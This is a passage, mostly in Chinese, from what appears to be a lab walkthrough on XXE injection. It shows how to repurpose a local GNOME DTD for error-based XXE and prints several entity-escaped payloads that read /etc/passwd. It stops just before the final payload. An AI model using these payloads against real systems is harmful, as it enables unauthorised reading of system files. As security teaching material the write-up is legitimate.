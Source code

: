 ```xml-dtd
```

成功读取。

#### 7. Exploiting XXE to retrieve data by repurposing a local DTD

> Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`.

因为这个dtd是本地的文件，并且里面有`ISPamso`，并且使用错误信息，那么可以编写下面的xml文档。

```xml-dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % error SYSTEM \'file:///nonexistent/%file;\'>">
%eval;
%error;
'>
%local_dtd;
]>
```

又因为这个要经过两次解析：

* 第一次解析是调用local_dtd的时候，所以里面的`%`都需要转义，而且xml不太支持反斜杠转义，里面的单引号也得用HTML实体编码。

    ```xml-dtd
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```

* 然后调用`ISOamso`之后，就会进行第二次解析。

    解析之后里面的部分就会变成：

    ```xml-dtd
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;
    ```

    这里显然eval里面的部分不符合规范，所以`% error`里面的`%`需要进行二次HTML实体编码。

    所以最终payload是：
